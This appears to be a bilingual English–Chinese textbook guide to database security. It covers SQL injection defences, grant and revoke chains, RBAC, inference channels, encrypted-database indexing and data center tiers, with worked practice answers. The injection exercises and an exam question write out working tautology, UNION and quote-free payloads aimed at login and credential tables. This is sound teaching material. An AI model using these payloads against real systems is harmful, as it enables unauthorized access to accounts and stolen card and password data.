- Detection: signature-based (match known patterns), anomaly-based (learn normal behaviour, flag deviations) and code analysis (test with injection payloads).检测：基于特征码的检测（匹配已知模式）、基于异常的检测（学习正常行为，标记偏离）和代码分析（用注入载荷进行测试）。
- Run-time prevention: check each query against a model of the expected queries, independent of the application code.运行时防护：将每条查询与预期查询的模型进行比对，这一检查独立于应用程序代码。
Parameterized queries are the strongest single measure, because the input can no longer change the structure of the query. One countermeasure alone is still not enough: combine it with the others. The database reads the query structure first. The value is bound later and is compared as plain text. In the code below, the first version is vulnerable and the second is safe.参数化查询是最有效的单项措施，因为输入再也无法改变查询的结构。单靠一项对策仍然不够：应将它与其他措施结合使用。数据库会先读取查询的结构，之后再绑定值，并把值当作纯文本进行比较。在下面的代码中，第一个版本有漏洞，第二个版本是安全的。
# Vulnerable: the input becomes part of the SQL text
cur.execute("SELECT info FROM users WHERE name = '" + name + "'")
# Safe: ? is a placeholder, the value is sent separately as data
cur.execute("SELECT info FROM users WHERE name = ?", (name,))
With the input ' OR 1=1 -- the safe version looks for a user whose name is literally that text. It finds no row. The characters ' and -- have no special meaning inside a bound value.输入 ' OR 1=1 -- 时，安全版本会查找名字恰好就是这段文本的用户。它找不到任何行。字符 ' 和 -- 在绑定的值内部没有特殊含义。
Practice练习
Q1. (Trace) A login script builds SELECT accounts FROM users WHERE login='LOGIN' AND pass='PASS' AND pin=PIN by string concatenation, where PIN is inserted with no quotes (expected numeric). A user submits login ' or 1=1 --, pass x, pin 1. Write the resulting query and state what it returns.Q1.（手工演算）某登录脚本通过字符串拼接构造 SELECT accounts FROM users WHERE login='LOGIN' AND pass='PASS' AND pin=PIN，其中 PIN 未加引号直接插入（预期为数字）。用户提交的 login 为 ' or 1=1 --，pass 为 x，pin 为 1。写出生成的查询语句，并说明其返回结果。
Answer
Substituting gives代入得到
SELECT accounts FROM users WHERE login='' or 1=1 --' AND pass='x' AND pin=1
-- comments out everything after it, including the password and pin checks, and 1=1 is a tautology, so the WHERE clause is true for every row. The query returns the accounts column for every user in the table — verified against a 2-row table, where the normal login for one user returns one row but this payload returns both. This is a tautology / end-of-line-comment attack via the login field.-- 将其后的全部内容注释掉，包括口令检查和 pin 检查；1=1 为重言式，因此 WHERE 子句对每一行都为真。该查询对表中每个用户都返回 accounts 列——已在一张两行的表上验证：正常登录某一用户时只返回一行，而该载荷返回两行。这是通过登录字段实施的重言式/行尾注释攻击。
Q2. (Explain) The same login field instead receives ' UNION SELECT cardNo FROM CreditCards WHERE acctNo = 10032 --. Explain the effect and state one precondition this attack needs that the tautology attack in Q1 does not.Q2.（解释）同一登录字段改为接收 ' UNION SELECT cardNo FROM CreditCards WHERE acctNo = 10032 --。请解释其效果，并说明本攻击所需、而 Q1 中的重言式攻击不需要的一个前提条件。
Answer
The resulting query unions the (empty, since login='' matches nothing) result of the original SELECT accounts FROM users ... with SELECT cardNo FROM CreditCards WHERE acctNo = 10032, so the page — which displays the accounts column — instead displays the stolen credit-card number. Verified: the query returns exactly the one cardNo value. Unlike the tautology attack, UNION requires the attacker's SELECT to return the same number (and compatible types) of columns as the original query (here, one column, matching accounts); the tautology attack needs no such match since it never adds a new SELECT.生成的查询将原始 SELECT accounts FROM users ... 的结果（由于 login='' 不匹配任何记录，该结果为空）与 SELECT cardNo FROM CreditCards WHERE acctNo = 10032 进行 UNION 合并，因此页面——它显示 accounts 列——转而显示被窃取的信用卡号。已验证：该查询恰好返回一个 cardNo 值。与重言式攻击不同，UNION 要求攻击者的 SELECT 返回与原查询相同数量（且类型兼容）的列（此处为一列，与 accounts 相匹配）；重言式攻击无需这种匹配，因为它从不增加新的 SELECT。
易错：UNION 攻击必须猜中列数，盲猜时常用 ORDER BY n 递增探测直到报错。
Q3. (Design) A developer "fixes" the login code in Q1 by stripping every ' character from user input before concatenation. Give one payload style that still succeeds, and explain why stripping quotes is not a sufficient countermeasure in general.Q3.（设计）某开发者通过在拼接前从用户输入中删除所有 ' 字符，来“修复”Q1 中的登录代码。请给出一种仍能成功的载荷形式，并解释为什么一般而言删除引号并不是充分的对策。
Answer
If the pin field is concatenated unquoted (as numeric input), no quote is needed: entering pin = 0 OR 1=1 with login/pass left valid produces ... AND pin=0 OR 1=1, which is a tautology without a single ' character. Verified: this returns every row of an accounts-style table instead of the one matching row a correct pin returns. More generally, character blacklisting only blocks the specific characters the developer thought of; any context where unquoted, non-string, or alternately encoded input reaches the query (numeric fields, different quote characters, comment styles, or encoding tricks) bypasses it. The robust fix is a parameterized query, not filtering.若 pin 字段以未加引号的方式拼接（作为数值输入），则无需任何引号：在 login/pass 保持有效的情况下输入 pin = 0 OR 1=1，将生成 ... AND pin=0 OR 1=1，它是一个完全不含 ' 字符的重言式。已验证：该语句返回 accounts 类型表中的每一行，而正确的 pin 只会返回匹配的那一行。更一般地，字符黑名单只能拦截开发者想到的特定字符；只要未加引号的、非字符串的或经过其他编码的输入能够进入查询（如数值字段、不同的引号字符、注释风格或编码技巧），黑名单便会被绕过。稳健的修复方法是参数化查询，而不是过滤。
Database access control ★★★数据库访问控制
Goal. State the access rights and administrative policies, read GRANT and REVOKE statements, and trace who still holds a right after a revocation, using grant times.目标。 说明访问权限和管理策略，读懂 GRANT 和 REVOKE 语句，并利用授权时间，跟踪撤销之后仍持有某项权限的人。
Step 1: rights and administrative policies第 1 步：权限与管理策略
A DBMS trusts the operating system to authenticate the user. It then adds its own layer. A right can cover the whole database, a table, chosen rows or columns. It can also depend on the content of a row. The rights are select, insert, update, delete and references (to define a foreign key to the columns). Three administrative policies say who may grant and revoke:DBMS 信任操作系统对用户进行身份认证，然后再增加自己的一层。权限可以覆盖整个数据库、某张表、选定的行或列。它也可以取决于某一行的内容。权限包括 select、insert、update、delete 和 references（用于定义指向这些列的外键）。三种管理策略规定了谁可以授予和撤销权限：
- Centralised: a small set of privileged users grants and revokes.集中式：由少数有特权的用户负责授予和撤销权限。
- Ownership-based: the creator of a table grants and revokes the rights to it.基于所有权：表的创建者负责授予和撤销对该表的权限。
- Decentralised: owners may also hand the power to grant to others, which creates grant chains.分散式：所有者还可以把授权的权力交给他人，这样就形成了授权链。
Step 2: GRANT and REVOKE第 2 步：GRANT 与 REVOKE
In words: GRANT gives a right to a user or role, and REVOKE takes it back.用文字表述：GRANT 把权限授予用户或角色，REVOKE 则把权限收回。
GRANT {privileges | role} [ON table] TO {user | role | PUBLIC}
[IDENTIFIED BY password] [WITH GRANT OPTION]
PUBLIC means every user. WITH GRANT OPTION lets the receiver grant the right onward. Two examples.PUBLIC 表示所有用户。WITH GRANT OPTION 允许接收者把这项权限继续授予他人。下面是两个例子。
GRANT SELECT ON ANY TABLE TO ricflair
REVOKE {privileges | role} [ON table] FROM {user | role | PUBLIC}
REVOKE SELECT ON ANY TABLE FROM ricflair
Step 3: cascading revocation第 3 步：级联撤销
In words: when a right is revoked, everything that was granted onward through that right is revoked too, unless the receiver also holds the right through another, still valid chain.用文字表述：撤销某项权限时，凡是通过这项权限继续授予出去的权限也会被一并撤销，除非接收者还通过另一条仍然有效的链持有该权限。
The rule has a timing part. A grant is only as good as the source that its grantor had at the moment of the grant. A source that the grantor obtained later cannot make an earlier grant valid.这条规则还有时间方面的内容。一项授权的有效性，取决于授权人在授权那一刻所拥有的来源。授权人之后才获得的来源，无法使更早的授权变得有效。
How to do it by hand: 1. Delete the revoked grant. 2. Go through the remaining grants in time order. 3. A grant is valid only if its grantor already holds the right at that time. 4. Everyone who receives a valid grant holds the right.手工方法：1. 删除被撤销的授权。2. 按时间顺序检查剩余的授权。3. 只有当授权人在当时已经持有该权限时，这项授权才有效。4. 凡是收到有效授权的人，都持有该权限。
Example: the owner is Lívia and all grants use the grant option.例子：所有者是 Lívia，所有授权都使用了授权选项。
| Grantor → Grantee授权人 → 被授权人 | Time时间 |
|---|---|
| Lívia → Teri | 10 |
| Lívia → Sophia | 20 |
| Teri → David | 30 |
| David → Aline | 40 |
| Aline → Jonas | 45 |
| Sophia → David | 50 |
| David → Mattias | 60 |
Case A: Teri revokes David. David's grant at time 30 is deleted. The valid grants in time order are:情况 A：Teri 撤销 David 的权限。David 在时间 30 的授权被删除。按时间顺序，有效的授权如下：
| Time时间 | Grant授权 | Valid?是否有效？ | Reason原因 |
|---|---|---|---|
| 10 | Lívia to TeriLívia 授予 Teri | Yes是 | Lívia is the ownerLívia 是所有者 |
| 20 | Lívia to SophiaLívia 授予 Sophia | Yes是 | Lívia is the ownerLívia 是所有者 |
| 40 | David to AlineDavid 授予 Aline | No否 | At time 40 David holds nothing: his first valid source is at time 50在时间 40，David 没有任何权限：他的第一个有效来源出现在时间 50 |
| 45 | Aline to JonasAline 授予 Jonas | No否 | Aline has nothingAline 没有任何权限 |
| 50 | Sophia to DavidSophia 授予 David | Yes是 | Sophia holds it since time 20Sophia 自时间 20 起持有该权限 |
| 60 | David to MattiasDavid 授予 Mattias | Yes是 | David holds it since time 50David 自时间 50 起持有该权限 |
Result: Teri, Sophia, David and Mattias keep the right. Aline and Jonas lose it. Mattias keeps it because David's own grant to him came after the source Sophia.结果：Teri、Sophia、David 和 Mattias 保留该权限。Aline 和 Jonas 失去了权限。Mattias 之所以保留，是因为 David 授予他的时间晚于 Sophia 这一来源。
Case B: Lívia revokes Sophia. David still holds the right through Teri, so David, Aline, Jonas and Mattias are unaffected. Sophia's grant to David at time 50 is now void, but it is not needed. If Lívia revokes both Teri and Sophia, nobody keeps the right.情况 B：Lívia 撤销 Sophia 的权限。David 仍然通过 Teri 持有该权限，因此 David、Aline、Jonas 和 Mattias 都不受影响。Sophia 在时间 50 授予 David 的权限现已无效，但它已经不再需要。如果 Lívia 同时撤销 Teri 和 Sophia 的权限，那么就没有人保留该权限了。
Practice练习
Q1. (Trace) \(A\), \(B\), \(C\) each separately grant X the READ right on Employee at times 15, 20, 30 respectively (with grant option); \(X\) grants READ to \(Y\) at time 25. At time 35, \(B\) revokes READ on Employee from \(X\). Does \(Y\) keep READ? Justify using the grant timestamps.Q1.（手工演算）\(A\)、\(B\)、\(C\) 分别于时刻 15、20、30 各自独立地授予 X 对 Employee 的 READ 权限（均带授权选项）；\(X\) 在时刻 25 将 READ 授予 \(Y\)。在时刻 35，\(B\) 从 \(X\) 撤销对 Employee 的 READ 权限。\(Y\) 是否保留 READ？请利用授权时间戳说明理由。
Answer
Yes. \(X\) granted READ to \(Y\) at \(t=25\), and at that time \(X\) already held the right from \(A\) (granted at \(t=15\), before \(t=25\)) — a source independent of \(B\)'s later grant at \(t=20\) (also before 25, but it is \(A\)'s grant that is unaffected by \(B\)'s revocation). Since \(A \to X\) was never revoked, \(X\) still holds READ after \(B\)'s revocation, and \(Y\)'s grant — traceable to \(A \to X\) — remains valid. Verified by simulation: removing only the \(B \to X\) edge leaves both \(X\) and \(Y\) holding READ.是的。\(X\) 于 \(t=25\) 时将 READ 授予 \(Y\)，而当时 \(X\) 已经通过 \(A\) 持有该权限（授予于 \(t=15\)，早于 \(t=25\)）——这是一个独立于 \(B\) 在 \(t=20\) 所作授权的来源（同样早于 25；但不受 \(B\) 撤销影响的，是 \(A\) 的授权）。由于 \(A \to X\) 从未被撤销，因此在 \(B\) 撤销之后，\(X\) 仍持有 READ，而 \(Y\) 的授权（可追溯至 \(A \to X\)）依然有效。经模拟验证：仅删除 \(B \to X\) 这条边时，\(X\) 和 \(Y\) 仍都持有 READ。
Q2. (Design) Sketch, in words, an algorithm that computes exactly who retains a given access right after an arbitrary edge is removed from a grant graph with timestamps, following the Griffiths–Wade convention.Q2.（设计）请用文字勾勒一个算法：依照 Griffiths–Wade 约定，在从带时间戳的授权图中删除任意一条边之后，精确计算哪些用户仍保留给定的访问权限。
Answer
Represent each grant as a directed, timestamped edge from grantor to grantee. To decide whether grantee \(g\) keeps the right after edge \(e=(u,v,t)\) is revoked: remove \(e\) from the graph, then repeatedly mark as "holding" every user reachable from the root owner by a path of edges \((a,b,t_b)\) where \(a\) already holds the right at a time no later than \(t_b\) (the root always holds it). Iterate (since a user's holding status can newly justify a later grant they made) until no new user is marked. \(g\) keeps the right iff it is marked holding at the end. This matches the simulation used above: starting from the root, propagate "holds the right" forward through time-ordered edges, excluding the revoked edge, to a fixed point.将每一项授权表示为一条从授权人指向被授权人的有向带时间戳边。要判断被授权人 \(g\) 在边 \(e=(u,v,t)\) 被撤销后是否仍保留该权限：先从图中删除 \(e\)，然后反复将沿边路径 \((a,b,t_b)\) 从根所有者可达的每个用户标记为“持有”，其条件是该边的授权人 \(a\) 在不晚于 \(t_b\) 的时刻已持有该权限（根节点始终持有）。重复迭代（因为某用户的持有状态可能使其之后作出的授权新获得支持），直到不再有新用户被标记。当且仅当 \(g\) 在结束时被标记为“持有”，它才保留该权限。这与上文的模拟一致：从根节点出发，沿时间有序的边（排除被撤销的边）向前传播“持有该权限”，直至达到不动点。
思路：本质是在去掉一条边之后的图上，从根节点重新做一次按时间顺序的可达性传播。
Role-based access control (RBAC) ★★基于角色的访问控制（RBAC）
Goal. Define RBAC, explain why it beats per-user grants, and name the fixed roles of SQL Server with their permissions.目标。 定义 RBAC，解释它为什么优于逐用户授权，并说出 SQL Server 固定角色及其权限。
In words: RBAC = rights are given to a role that fits a task, and users are then assigned to roles.用文字表述：RBAC = 权限授予与某项任务相符的角色，然后再把用户分配到角色中。
RBAC（基于角色的访问控制）puts a role between users and rights. Direct grants per user do not scale and are hard to audit. With roles, removing a person from a job is one change of role membership, not many REVOKE statements. Example: a clerk moves to another department, so the administrator changes one role assignment.基于角色的访问控制（RBAC）在用户和权限之间插入了一层角色。直接按用户逐一授权难以扩展，也难以审计。有了角色后，把某人调离某个岗位只需改动一次角色成员关系，而不必执行多条 REVOKE 语句。例子：一名职员调到另一个部门，管理员只需修改一次角色分配。
There are three groups of database users: application owner, end user and administrator. They need different rights. An RBAC facility must support: creating and deleting roles, defining permissions for roles, and assigning or cancelling role membership.数据库用户分为三类：应用程序所有者、终端用户和管理员。他们需要的权限各不相同。RBAC 功能必须支持：创建和删除角色、为角色定义权限，以及分配或取消角色成员资格。
SQL Server has fixed roles, which are predefined and cannot be changed (only the membership changes), and user-defined roles, which an authorised user creates.SQL Server 有固定角色，它们是预先定义的，不能修改（只能改变成员）；还有用户定义角色，由经过授权的用户创建。
| Fixed server roles固定服务器角色 | Permission权限 |
|---|---|
| sysadmin | Full control over all database functions对所有数据库功能的完全控制 |
| serveradmin | Set server-wide config, shut down server设置服务器范围的配置，关闭服务器 |
| securityadmin | Manage logins, CREATE DATABASE, read error logs管理登录名、CREATE DATABASE，读取错误日志 |
| Fixed database roles固定数据库角色 | Permission权限 |
|---|---|
| db_owner | All permissions in the database数据库中的全部权限 |
| db_datareader | Select all data from any user table读取任何用户表中的全部数据 |
| db_datawriter | Modify any data in any user table修改任何用户表中的任何数据 |
User-defined roles come in two forms. A standard role is assigned to users by an authorised user. An application role belongs to an application and is activated with a password. The application can then enforce its own rules, for example only during office hours.用户定义角色有两种形式。标准角色由经过授权的用户分配给其他用户。应用程序角色属于某个应用程序，需要用密码激活。此后，应用程序可以强制执行自己的规则，例如只在办公时间内有效。
Practice练习
Q1. (Design) An inventory system has three roles: accounts-payable clerk, installation supervisor, and receiving clerk. Parts data includes part number, description, color, size, stock count; vendor data includes name, address, pending and closed purchase orders. For each role, state which data should be read-only vs. read-write.Q1.（设计）某库存系统有三种角色：应付账款文员、安装主管和收货文员。零件数据包括零件编号、描述、颜色、尺寸、库存数量；供应商数据包括名称、地址、待处理和已关闭的采购订单。对每种角色，请说明哪些数据应为只读，哪些应为读写。
Answer
Accounts-payable clerk: read-write on pending/closed purchase orders and vendor payment details (their job is to process payments); read-only on part descriptions (they need to verify what was ordered, not change catalog data). Installation supervisor: read-only on part number/description/color/size (needs to know what is available and its properties) and read-only on stock count; no need for vendor financials. Receiving clerk: read-write on stock count (updates it on receipt) and on closed purchase orders (marks them received); read-only on part description (to verify the shipment) and read-only on pending purchase orders (to know what to expect).应付账款文员：对待处理和已关闭的采购订单以及供应商付款明细具有读写权限（其工作是处理付款）；对零件描述只读（需核对所订购的内容，而无需更改目录数据）。安装主管：对零件编号、描述、颜色、尺寸只读（需要知道有哪些可用物料及其属性），对库存数量也只读；无需访问供应商财务信息。收货文员：对库存数量具有读写权限（收货时更新），对已关闭的采购订单具有读写权限（将其标记为已收货）；对零件描述只读（用于核对发货），对待处理的采购订单只读（以了解预期到货）。
思路：按"这个角色的工作需要改什么"来分配读写权限，其余只给只读。
Q2. (Explain) Why is an application role associated with a password rather than simply with the set of users who use that application?Q2.（解释）为什么应用程序角色要与口令相关联，而不是简单地与使用该应用程序的用户集合相关联？
Answer
An application role grants rights to the application's own logic, not to whichever human happens to be using it; any user who can reach the application and supply the role's password gets the application's access while that session is active, letting the application enforce its own finer-grained rules (e.g., only during business hours) independently of whatever direct rights that user otherwise holds. If the role were tied to the user list instead, every individual user would need the role's full rights directly, defeating the purpose of confining elevated access to the application's controlled code path.应用程序角色授予的权限针对的是应用程序自身的逻辑，而不是当前恰好使用该应用的人；任何能够访问该应用并提供角色口令的用户，在该会话有效期间即获得该应用的访问权限，从而使应用能够独立于该用户原本拥有的任何直接权限，实施其自身更细粒度的规则（例如仅在营业时间内生效）。若改为将角色与用户列表绑定，则每个用户都必须直接拥有该角色的全部权限，这就违背了将提升权限限制在应用受控代码路径中的目的。
Inference ★★推理攻击
Goal. Define inference and an inference channel, show how combining authorised answers reveals secret data, and name the two counter-strategies.目标。 定义推断和推断通道，说明如何通过组合经授权的答案泄露机密数据，并说出两种应对策略。
Inference（推断）is deducing unauthorised data by combining the results of queries or views that the user is allowed to run, perhaps with non-sensitive background knowledge. The path to the secret is the inference channel.推断是指把用户允许运行的查询或视图的结果组合起来，有时再结合非敏感的背景知识，从而推导出未经授权的数据。通向秘密的路径就是推断通道。

Two general techniques: a functional dependency, where knowing one attribute lets you work out another, and merging views that look safe alone. Example of merging: a table Inventory has Item, Department, Availability and Cost. The policy forbids showing Item with Cost. Two views look safe.两种常见技术：一是函数依赖，即知道一个属性就能推算出另一个属性；二是合并视图，每个视图单独看都是安全的。合并的例子：表 Inventory 有 Item、Department、Availability 和 Cost。策略禁止同时显示 Item 和 Cost。这两个视图单独看都是安全的。
CREATE VIEW V1 AS SELECT Availability, Cost FROM Inventory WHERE Department = 'hardware'
CREATE VIEW V2 AS SELECT Item, Department FROM Inventory WHERE Department = 'hardware'
Both views list the rows in the same order. A user who lines the rows up one by one gets the pairs of Item and Cost. The channel is the shared row order, not a dependency.两个视图列出行的顺序相同。用户把各行一一对齐，就能得到 Item 和 Cost 的配对。通道是共享的行顺序，而不是函数依赖。
Two strategies counter inference:有两种策略应对推断：
- Design-time: remove the channel from the schema or the access rules. Split a table so that the sensitive combination can never be queried together, or use finer RBAC roles. Some availability is lost.设计时：从模式或访问规则中去掉通道。拆分表，使敏感的组合永远不会被一起查询，或者使用更细粒度的 RBAC 角色。这样会损失一部分可用性。
- Query-time: watch the queries as they run and deny or alter one that would complete an inference channel.查询时：在查询运行时进行监控，拒绝或改写那些会完成推断通道的查询。
Inference detection is hard in general. The classic case shows why.一般来说，推断检测很困难。经典案例可以说明原因。
Practice练习
Q1. (Explain) State, in one sentence, the general condition under which combining two individually authorized pieces of information creates a security problem.Q1.（解释）用一句话说明：将两条各自都已获授权的信息结合起来，会在何种一般条件下产生安全问题。
Answer
It is a problem whenever the combination of the data items is more sensitive than any item alone, or the combination lets a user derive a separate, higher-sensitivity data item — i.e., when a user can use authorized, nonsensitive responses (plus metadata about correlations) to deduce information they are not authorized to access directly.只要数据项的组合比任一单独项更敏感，或该组合使用户能够推导出另一个敏感度更高的数据项——即用户能够利用已授权的非敏感响应（加上关于相关性的元数据）推断出其无权直接访问的信息时，就构成问题。
Database encryption ★★数据库加密
Goal. Say what encryption costs a database, and answer a query on row-encrypted data with coarse indexes, including which rows the server returns and which the client discards.目标。 说明加密会给数据库带来哪些代价，并利用粗粒度索引回答针对行加密数据的查询，包括服务器返回哪些行、客户端丢弃哪些行。
Encryption is the last line of defence after firewalls, authentication and access control. It has two costs.在防火墙、身份认证和访问控制之后，加密是最后一道防线。它有两项代价。
- Key management. Many users and applications need different, overlapping keys. Distributing them (Section 7.7) and protecting them is hard.密钥管理。 许多用户和应用程序需要各不相同、又相互重叠的密钥。分发这些密钥（见第 7.7 节）和保护它们都很困难。
- Inflexibility. Encrypted data is hard to search, filter or range-query in its stored form.缺乏灵活性。 加密数据以存储形式存在时，很难进行搜索、过滤或范围查询。
A database may be outsourced to a server that is not trusted with the key. If every item is encrypted separately, the data is safe, but a range query like salary below 70 thousand cannot be evaluated. Encryption does not preserve order.数据库可能外包给一台不被信任保管密钥的服务器。如果每一项都单独加密，数据是安全的，但像“工资低于 7 万”这样的范围查询就无法计算。加密不会保留顺序。
Step 1: row encryption with coarse indexes第 1 步：带粗粒度索引的行加密
In words: encrypt each whole row, and attach a rough label (a bucket number) to each searchable attribute, so that the server can pre-select rows without the key.用文字表述：把每一整行加密，并为每个可搜索的属性附上一个粗略的标签（桶编号），使服务器无需密钥就能预先选出行。
Each row is encrypted as one block \(E(k,B)\). \(k\) is the secret key, which only the client holds, and \(B\) is the plaintext row. For each searchable attribute, the range of values is cut into buckets. Each bucket has one index value. The mapping is kept at the client and is never sent to the server.每一行作为一个整体块加密，得到 \(E(k,B)\)。\(k\) 是秘密密钥，只有客户端持有；\(B\) 是明文行。对于每个可搜索属性，其取值范围被切分为若干桶。每个桶对应一个索引值。映射关系保存在客户端，从不发送给服务器。

Example table, and the buckets of the salary attribute: up to 50 thousand maps to index 1, 51 to 60 to index 2, 61 to 70 to index 3, above 70 to index 4.示例表，以及工资属性的桶划分（单位：千）：不超过 50 映射为索引 1，51 至 60 映射为索引 2，61 至 70 映射为索引 3，超过 70 映射为索引 4。
| eid | ename | salary | addr | did |
|---|---|---|---|---|
| 23 | Tom | 70K | Maple | 45 |
| 860 | Mary | 60K | Main | 83 |
| 320 | John | 50K | River | 50 |
| 875 | Jerry | 55K | Hopewell | 92 |
The index values of the four rows are: for the attribute eid, 1, 5, 2, 5 (Tom, Mary, John, Jerry); for salary, 3, 2, 1, 2.四行的索引值：eid 属性为 1、5、2、5（依次是 Tom、Mary、John、Jerry）；salary 属性为 3、2、1、2。
Step 2: answering a query第 2 步：回答查询
How to do it by hand: 1. The client turns the condition into the index values whose bucket could contain a match. 2. The server returns every row with one of those index values. 3. The client decrypts the rows. 4. The client applies the exact condition and discards the false hits.手工方法：1. 客户端把查询条件转换为那些桶可能含有匹配值的索引值。2. 服务器返回索引值属于其中之一的所有行。3. 客户端解密这些行。4. 客户端应用精确的条件，并丢弃误命中的行。
The index leaks a rough order: rows in the same or nearby buckets are "close". This is reduced by randomising the mapping from buckets to index values, for example eid buckets in order mapped to 2, 3, 5, 1, 4. The server never holds the mapping.索引会泄露一个粗略的顺序：同一个桶或相邻桶中的行被视为“接近”。随机化从桶到索引值的映射可以减少这种泄露，例如，按顺序排列的 eid 桶被映射为 2、3、5、1、4。服务器从不持有这个映射。
Practice练习
Q1. (Calculation) Using the table above, a user requests all employees with salary > 58K. Which I(salary) values must the query processor request from the server, how many rows come back, and how many does the client discard after decrypting?Q1.（计算）利用上表，用户请求满足 salary > 58K 的所有员工。查询处理器应向服务器请求哪些 I(salary) 值？有多少行返回？解密后客户端丢弃了多少行？
Answer
Bucket boundaries are \(\le\!50{:}1,\ 51\text{–}60{:}2,\ 61\text{–}70{:}3,\ >\!70{:}4\). Since \(58 > 50\), any salary that could exceed 58 must lie in a bucket whose range reaches above 58, i.e., \(I(\text{salary}) \ge 2\). The server returns every row with \(I(\text{salary})\in\{2,3,4\}\): Tom (\(I=3\)), Mary (\(I=2\)), Jerry (\(I=2\)) — 3 rows (verified). Decrypting: Tom = 70K (>58, keep), Mary = 60K (>58, keep), Jerry = 55K (≤58, discard). So the client discards 1 of the 3 returned rows, returning Tom and Mary as the final answer.桶边界为 \(\le\!50{:}1,\ 51\text{–}60{:}2,\ 61\text{–}70{:}3,\ >\!70{:}4\)。由于 \(58 > 50\)，任何可能超过 58 的薪水都必须位于其范围超过 58 的桶中，即 \(I(\text{salary}) \ge 2\)。服务器返回所有具有 \(I(\text{salary})\in\{2,3,4\}\) 的行：Tom（\(I=3\)）、Mary（\(I=2\)）、Jerry（\(I=2\)）——共 3 行（已验证）。解密后：Tom = 70K（>58，保留），Mary = 60K（>58，保留），Jerry = 55K（≤58，丢弃）。因此客户端丢弃了返回的 3 行中的 1 行，最终答案为 Tom 和 Mary。
Q2. (Compare) State the main trade-off this coarse-index scheme makes, relative to (a) sending the whole encrypted table to the client for every query, and (b) not encrypting at all.Q2.（比较）相对于 (a) 每次查询都将整个加密表发送给客户端，以及 (b) 完全不加密，指出这种粗粒度索引方案所作出的主要权衡。
Answer
Relative to (a), the index lets the server do most of the filtering, so only a small, relevant subset of (still-encrypted) rows crosses the network and needs decrypting — far cheaper than downloading and decrypting the entire table for every query — at the cost of a small, controlled information leak (coarse bucket membership, mitigated by randomizing the index-to-bucket mapping) and the overhead of maintaining the index metadata at the client. Relative to (b), the data at rest and in transit to/from the untrusted server is never exposed in plaintext, protecting confidentiality even if the server is compromised, at the cost of losing exact server-side filtering (the server can only narrow to a bucket, and the client must still decrypt and re-check every candidate row).相对于 (a)，索引使服务器能够完成大部分过滤工作，因此只有少量相关的（仍处于加密状态的）行需要通过网络传输并解密——比每次查询下载并解密整张表要便宜得多——代价是产生少量可控的信息泄露（粗粒度的桶归属，可通过随机化索引到桶的映射来缓解），以及在客户端维护索引元数据的开销。相对于 (b)，静态数据以及与不可信服务器之间传输的数据从不以明文形式暴露，即使服务器被攻破，机密性仍受保护；代价是失去了精确的服务器端过滤（服务器只能缩小到某个桶，客户端仍须解密并重新检查每个候选行）。
Data center security ★数据中心安全
A data center houses many servers, storage and network devices, from one room to a whole building. Its data is concentrated. Security is therefore modelled in four nested layers. They are site (building and utilities), physical (for example a mantrap, a double door that lets in one person at a time), network (standard techniques) and data (access control and encryption).数据中心容纳许多服务器、存储设备和网络设备，小到一个房间，大到整栋建筑。它的数据高度集中。因此，安全模型分为四个相互嵌套的层次：场地（建筑和公用设施）、物理（例如人员闸门 mantrap，即一次只允许一人进入的双层门）、网络（标准技术）和数据（访问控制和加密）。

A telecommunications standard for data centers defines four reliability tiers.一项面向数据中心的电信标准定义了四个可靠性等级。
| Tier等级 | Design summary设计概要 | Availability可用性 | Downtime/yr停机时间/yr |
|---|---|---|---|
| 1 | Single, non-redundant path; full shutdown for maintenance单一、无冗余路径；维护时需完全停机 | 99.671% | 28.8 h |
| 2 | Single path, redundant components单一路径，组件冗余 | 99.741% | 22.0 h (the formula below gives 22.7 h)22.0 h（下面的公式给出 22.7 h） |
| 3 | Multiple paths, one active; idle-path maintenance causes no disruption多条路径，一条处于活动状态；空闲路径的维护不会造成中断 | 99.982% | 1.6 h |
| 4 | Multiple active paths; tolerates one worst-case failure with no impact多条活动路径；可容忍一次最坏情况下的故障且不产生影响 | 99.995% | 0.4 h |
Practice练习
Q1. (Explain) Why does Tier 3 (multiple paths, only one active at a time) achieve much lower downtime than Tier 2 (single path, redundant components) even though Tier 3 is not using all its paths simultaneously?Q1.（解释）为什么 Tier 3（多条路径，同一时刻仅一条处于活动状态）的停机时间远低于 Tier 2（单一路径，组件冗余），尽管 Tier 3 并非同时使用其全部路径？
Answer
Tier 2's redundant components still share a single active distribution path, so maintenance or failure on that path still forces a shutdown; redundancy there only guards against a component failing, not against needing to service the path itself. Tier 3 has a second, independent path that can be activated while the first is taken down for maintenance, so planned maintenance causes no disruption — only unplanned failures of the active path still cause downtime, which is why its downtime is nearly an order of magnitude lower.Tier 2 的冗余组件仍共享同一条活动分配路径，因此该路径的维护或故障仍会迫使停机；此处的冗余只防范组件故障，而无法防范路径本身需要检修。Tier 3 拥有第二条独立路径，可在第一条路径因维护而停用时启用，因此计划性维护不会造成中断——只有活动路径上的非计划故障仍会导致停机，这正是其停机时间低了近一个数量级的原因。
Terms to recognise ★需要认识的术语
| Term术语 | What to know要知道什么 |
|---|---|
| DDL, DML, query languageDDL、DML、查询语言 | DDL defines the schema, DML reads and writes data, the query language lets users ask for data by criteriaDDL 定义模式，DML 读写数据，查询语言使用户能够按条件请求数据 |
| Second-order injection二阶注入 | The hostile string is stored first and is used in a later query. Checking input only at storage misses it恶意字符串先被存储，之后再用于查询。只在存储时检查输入会漏掉它 |
| SQL DOM | Type-checked classes build queries instead of string concatenation由经过类型检查的类来构造查询，而不是字符串拼接 |
| Out-of-band attack带外攻击 | Results return through another channel, for example a DNS request结果通过另一条通道返回，例如 DNS 请求 |
| Run-time prevention运行时防护 | Each query is checked against a model of the expected queries每条查询都与预期查询的模型进行比对 |
| PUBLIC | In GRANT, stands for every user在 GRANT 中，表示所有用户 |
| Administrative policies管理策略 | Centralised, ownership-based, decentralised集中式、基于所有权、分散式 |
| Fixed role固定角色 | Predefined role whose rights cannot change, only its members预定义的角色，其权限不能更改，只能更改其成员 |
| Functional dependency函数依赖 | One attribute determines or narrows another, which can open an inference channel一个属性决定或缩小另一个属性的范围，这可能打开推断通道 |
| Mantrap人员闸门（mantrap） | Double door, one person at a time, in the physical layer双层门，一次只允许一人通过，位于物理层 |
Exam-style questions考试题型练习
Q1. (12 marks) A web application builds SELECT * FROM Products WHERE category = '<input>' by string concatenation of unsanitized user input.
(a) Give a tautology payload for <input> and the resulting query. (3 marks)
(b) Give a UNION-based payload that would extract username, password from a Users table, assuming the attacker already knows Products is queried with exactly 2 displayed columns (name, description). State the one structural condition this payload must satisfy to succeed. (4 marks)
